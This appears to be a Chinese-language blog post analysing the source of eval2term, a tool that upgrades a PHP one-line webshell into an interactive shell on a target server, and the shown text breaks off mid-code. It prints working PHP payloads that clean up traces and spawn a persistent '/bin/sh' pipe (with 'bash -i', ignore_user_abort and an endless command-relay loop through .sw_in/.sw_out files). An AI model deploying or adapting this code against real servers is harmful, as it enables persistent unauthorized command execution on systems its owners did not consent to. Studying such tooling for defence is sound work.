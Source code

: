 ```yaml
---
title: "基于eval2term的小改"
slug: "eval2term-2"
description: "远远远算不上二开，就是个小改（进行中），轻喷=v="
date: 2022-09-12T23:55:59+08:00
categories: ["NOTES&SUMMARY"]
series: ["t00ls"]
tags: ["Go", "webshell"]
draft: false
toc: true
---
```


原项目地址->[She11Way](https://github.com/She11Way)/[eval2term](https://github.com/She11Way/eval2term)  |  个人小改后的项目地址->[AmiaaaZ](https://github.com/AmiaaaZ)/[eval2term](https://github.com/AmiaaaZ/eval2term)

早上刷微博看到有师傅转发这个项目，被演示视频惊到了：只需要php一句话就能做到交互式的shell！于是赶紧学一波

## 源码分析

*原作者已经在README.md中写明了实现原理，这里是源码上的分析，可以直接跳过这一part

要做到interactive shell主要需要处理的是读取待执行的命令并传递到服务端和正确返回回显这两部分，eval2term是通过在服务端写入文件并操作`/bin/sh`的管道来实现的，而完成读写文件、操作管道的部分都是靠一句话小马里传入php代码来完成

这样的php代码分为4种，当首次连接时先发送的是stop（程序报错异常也会发送stop），将连接时在目标服务端产生的文件或历史文件删除

```php
$STDIN = ".sw_in";
$STDOUT = ".sw_out";
@unlink($STDIN);
@unlink($STDOUT);
```

之后使用go statement在内部新开一个线程，只执行start，不间断处理请求：把.sw_in中待执行的命令全部写到管道的标准输入中

```php
$STDIN = ".sw_in";
$STDOUT = ".sw_out";

ignore_user_abort(true);
set_time_limit(0);
ob_start(); // 测试缓冲区读写
echo "ok";
ob_end_flush();
flush();

$desc = array(
    0 => array("pipe", "r"),    // 标准输入
    1 => array("file", $STDOUT, "a"),   // 标准输出
    2 => array("file", $STDOUT, "a")    // 标准错误
);

$handle = proc_open("/bin/sh", $desc, $pipes);  // 创建`/bin/sh`的管道
@file_put_contents($STDIN, "bash -i\n");

while (1) { // 不间断执行 把.sw_in中待执行的命令全部写到管道的标准输入中
    sleep(0.1);
    if (!proc_get_status($handle)["running"]) break;    // 管道破裂
    if (!file_exists($STDIN)) break;    // .sw_in文件不存在
    $c = @file_get_contents($STDIN);
    @file_put_contents($STDIN, "");
    if (strlen($c) == 0) {
        sleep(0.2);
        continue;
```